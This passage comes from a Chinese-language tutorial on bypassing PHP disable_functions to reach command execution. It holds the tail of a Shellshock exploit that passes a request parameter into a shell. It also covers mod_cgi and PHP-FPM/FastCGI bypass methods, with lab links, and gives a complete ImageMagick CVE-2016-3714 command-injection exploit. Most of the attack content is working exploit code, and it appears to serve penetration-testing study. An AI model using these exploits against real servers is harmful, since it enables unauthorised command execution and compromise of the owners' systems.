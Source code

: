 ```php
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

## 4. Apache mod_cgi 

>https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/3

有几个利用条件

1. Apache 开启 AllowOverride
2. 开启 cgi_module
3. .htaccess 文件可写
4. cgi 程序可执行

简单的说就是使用配置文件.htaccess去进行cgi文件，然后我们上传我们的cgi文件进行命令执行。

## 5. PHP-FPM/FastCGI

https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/4

p师傅写过一个脚本

https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

在ssrf漏洞中也经常使用

## 6. ImageMagick

利用 ImageMagick 命令执行漏洞（CVE-2016–3714）

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "n";

function AAAA(){
$command = 'curl 127.0.0.1:7777';

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
}
AAAA();
```